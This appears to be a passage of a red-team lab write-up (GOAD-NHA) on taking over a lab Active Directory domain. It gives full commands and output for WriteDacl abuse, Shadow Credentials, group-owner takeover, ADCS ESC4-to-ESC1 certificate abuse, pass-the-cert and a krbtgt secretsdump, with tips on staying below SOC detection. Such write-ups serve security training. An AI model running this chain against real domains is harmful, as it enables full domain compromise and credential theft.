[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> ENTERPRISE ADMINS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> KEY ADMINS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> ENTERPRISE KEY ADMINS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> ADMINISTRATORS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> DOMAIN CONTROLLERS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> ADMINISTRATOR@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> VAGRANT@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> ADMINSDHOLDER@NINJA.HACK
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> KRBTGT@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> ALICE.JOHNSON@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> SCHEMA ADMINS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> READ-ONLY DOMAIN CONTROLLERS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> DCSync --> NINJA.HACK
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> ACCOUNT OPERATORS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> SERVER OPERATORS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> REPLICATOR@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> BACKUP OPERATORS@NINJA.HACK [AdminCount]
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> PRINT OPERATORS@NINJA.HACK [AdminCount]
[+] ACL : RAS AND IAS SERVERS@NINJA.HACK--> WriteDacl --> RAS AND IAS SERVERS ACCESS CHECK@NINJA.HACK
[+] ACL : RAS AND IAS SERVERS@NINJA.HACK--> WriteOwner --> RAS AND IAS SERVERS ACCESS CHECK@NINJA.HACK
[+] ACL : SANIN@NINJA.HACK--> GenericAll --> JONIN@NINJA.HACK
###########################################################
[*] relationships - testing which (non admins) users can do what to others (all)
###########################################################
[+] ACL : OLIVIA.DAVIS@NINJA.HACK--> WriteDacl --> RACHEL.PHILIPS@NINJA.HACKAs we can see from our new Bloodhound-pytho and Bloodhound-QuickWins enumeration, our user Olivia.Davis, has WriteDacl to Rachel.Philips.
Privilege Escalation - WriteDacl - Olivia.Davis → Rachel.Philips
Let’s start by enumerating the ACL Olivia.Davis has over Rachel.Philips using dacledit.py. dacledit.py -action 'read' -principal 'olivia.davis' -target 'rachel.philips' 'ninja.hack/olivia.davis' -dc-ip 'dc-vil.ninja.hack' -hashes ':91d85135bb2c4e12c46efbb77612c487'
We can see above the WriteDACL right from user Olivia.Davis to Rachel.Philips on “Access mask” flag. Now let’s change it to “FullControll”
dacledit.py -action 'write' -rights 'FullControl' -principal 'olivia.davis' -target 'rachel.philips' 'ninja.hack/olivia.davis' -dc-ip 'dc-vil.ninja.hack' -hashes ':91d85135bb2c4e12c46efbb77612c487'Now if we check it again. dacledit.py -action 'read' -principal 'olivia.davis' -target 'rachel.philips' 'ninja.hack/olivia.davis' -dc-ip 'dc-vil.ninja.hack' -hashes ':91d85135bb2c4e12c46efbb77612c487'
Now we can see that we were able to change it to FullControl. From this FullControl we now do 3 different type of attacks.
Shadow Credentials attack
We want to avoid changing user’s credentials, because this can raise alerts, user can get locked out, so let’s go for the Shadow Credentials option where we can get Rachel.Philips TGT and NT hash. Let’s use Certipy to accomplish this Shadow Credential attack
certipy-ad shadow auto -u 'olivia.davis@ninja.hack' -hashes ':91d85135bb2c4e12c46efbb77612c487' -account 'rachel.philips’Rachel.Philips: 9755a3421982f684f66d411f661da264
Now as usual let’s check it Rachel.Philips NTLM hashes will work.
netexec smb dc-vil.ninja.hack -u 'rachel.philips' -H '9755a3421982f684f66d411f661da264'As we can see above, we just managed to compromise user Rachel.Philips.
Privilege Escalation - GenericAll Over Group ( Rachel.Philips → Sanin → JONIN)
Below we can see from Bloodhound GUI that our user Rachel.Philips is part of SANIN Group, if we check with BloodHound-QuickWins, the SANIN Groups contains GenericAll. SANIN@NINJA.HACK → GenericAll → JONIN@NINJA.HACK
Because we are member of Sanin Group, we automatically have GenericAll over Jonin Group. For this attack we will do the same as we did previously. let’s add our user Rachel.Philips into JONIN Group.
Let’s start by enumerating the group owner. owneredit.py -action 'read' -target 'jonin' 'ninja.hack/rachel.philips' -hashes ':9755a3421982f684f66d411f661da264'
vagrant is the owner of JONIN Group. Let’s now change the owner of the group to Rachel.Philips. owneredit.py -action 'write' -new-owner 'rachel.philips' -target 'jonin' 'ninja.hack/rachel.philips' -hashes ':9755a3421982f684f66d411f661da264'
If we check it again, we can see that we have now Rachel.Philips as owner. owneredit.py -action 'read' -target 'jonin' 'ninja.hack/rachel.philips' -hashes ':9755a3421982f684f66d411f661da264'
Becoming the group owner allows you to change the group ACL(Access Control List) and assign GenericAll to the group. dacledit.py -action 'write' -rights 'FullControl' -principal 'rachel.philips' -target 'JONIN' 'ninja.hack/rachel.philips' -dc-ip 'dc-vil.ninja.hack' -hashes ':9755a3421982f684f66d411f661da264'
Now that we were able to give GenericAll right to the JONIN group, we can now add Rachel.Philips to the JONIN group. Using ldeep, we can now Add user Rachel.Philips into JONIN group.
sudo ldeep ldap -u 'rachel.philips' -H ':9755a3421982f684f66d411f661da264' -d 'ninja.hacker' -s 'ldap://dc-vil.ninja.hack' add_to_group "CN=rachel.philips,CN=Users,DC=ninja,DC=hack" "CN=JONIN,CN=Users,DC=ninja,DC=hack”
Privilege Escalation To NINJA.HACK Domain Admin - ADCS Attack - ESC4 to ESC1
Well, After our last attack, GerericAll over a Group that allowed us to add our user Rachel.Philips into JONIN Groups, I spent some time during several enumerations. It was not easy to find this (probably I did not do the enumeration properly) so I had to get a quick HINT to catch this.
YES WE NEED TO ABUSE ADCS.
What we need to enumerate ADCS is simply a valid domain user. For this will be using our last compromised user, in this case we will be using Rachel.Philips account. Now, let’s start enumerating ADCS configuration and for this we will be using Certipy. certipy-ad find -vulnerable -u 'rachel.philips@ninja.hack' -hashes '9755a3421982f684f66d411f661da264' -target 'dc-vil.ninja.hack'

Certipy automatically tries to get the CA configuration through RRP (Registry Replication Protocol) after CSRA fails. Since the RRP method succeeded, the access issue with CSRA might not impact our ability to continue. If we read one of the _Certipy files (I read the _Certipy.txt file) we can see what template is vulnerable and I can quickly explain you why.
If we check the output form our enumeration with Certipy, we are able to see that SignatureValidation template is vulnerable to ESC4 and JONIN group has dangerous permission over it, and as Rachel.Philips we are part of this group already. GROUP JONIN has Full Control Principals rights, we can take the ESC4 template and change it to be vulnerable to ESC1 technique by using the Full Control Principals permission. Let’s start by modifying vulnerable ESC4 template to be able to exploit the ESC1 after the modification. certipy-ad template -u 'rachel.philips@ninja.hack' -hashes '9755a3421982f684f66d411f661da264' -target 'dc-vil.ninja.hack' -template 'SignatureValidation' -save-old -debug
Now that we were able to modify the ESC4 template we can exploit the ESC1 on it and get the domain administrator certificate for example. certipy-ad req -username 'rachel.philips@ninja.hack' -hashes '9755a3421982f684f66d411f661da264' -target 'dc-vil.ninja.hack' -template 'SignatureValidation' -ca 'NINJA-CA' -upn 'administrator@ninja.hack'
Voilá, we were able to request the administrator certificate. From this Point we have 2 ways to conduct our attack and I’ll demonstrate from the most stealthy to the less stealthy way.
1 - Pass The Cert attack
I consider this a more stealthy way, to abuse the administrator certificate we were able to extract from the ESC4 to ESC1 abuse previously. Now we need to extract the .crt and .key from the administrator pfx file, we will need it to do the pass the cert attack. Let’s use Certipy for that. certipy-ad cert -pfx 'administrator.pfx' -nokey -out 'administrator.crt'
certipy-ad cert -pfx 'administrator.pfx' -nocert -out 'administrator.key'Now let’s use passthecert.py to elevate Rachel.Philips privileges by giving DCSync rights, this way we can avoid messing around with the administrator or any other member of Domain Admins group. passthecert.py -action 'modify_user' -crt 'administrator.crt' -key 'administrator.key' -target 'rachel.philips' -elevate -domain 'ninja.hack' -dc-ip 'dc-vil.ninja.hack'

As we can see from the screenshot above, we were able to grant Rachel.Philips DCSync right. With this privileges we are able to dump all credentials on the Domain Controller.
Now because I like to always try to go on a stealthy way to be under the radars of the AV and SOC team, instead of doing a DCSync attack and dump the whole hashes table, I prefer to focus on the most valuable account we do have on a Domain Controller environment, which is not the administrator, but the krbtgt account.
The krbtgt account is more valuable than the administrator account in a Domain environment because:
The administrator account only gives access to the specific machine or domain it's part of, without granting the broader ticket manipulation powers.
secretsdump.py -just-dc-user 'krbtgt' 'ninja.hack/rachel.philips@dc-vil.ninja.hack' -hashes ':9755a3421982f684f66d411f661da264'
2 - DCSync Attack
Since we already detain the administrator.pfx certificate previously abusing ESC4 to ESC1 attack, we can simply go forward and use the administrator certificate to request it’s TGT and also get the administrator NTLM hash.
certipy-ad auth -pfx administrator.pfx -dc-ip '192.168.58.10''administrator@ninja.hack': aad3b435b51404eeaad3b435b51404ee:26777fdb79382484117ccfda940eca82
Once again we were able to authenticate the domain controller using the domain administrator’s certificate and request its TGT. If you see above, besides the TGT we also got the administrator’s NTLM hash.
secretsdump.py -just-dc-user 'krbtgt' 'ninja.hack/administrator@dc-vil.ninja.hack' -hashes ':26777fdb79382484117ccfda940eca82'[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:380ea7a889ea464b1382968f0d1c8c8c:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:b528dddcef32f23bdb7a3e477ddc32db9b6694f4766b24c8651009c910d306d9
krbtgt:aes128-cts-hmac-sha1-96:c5caaddfcd3631d062d8cc8366328ef8
krbtgt:des-cbc-md5:51aebfb57302fe46
[*] Cleaning up...This way we have simply completed this great GOAD-NHA. Thank You @MayFly for this amazing Red Team Lab.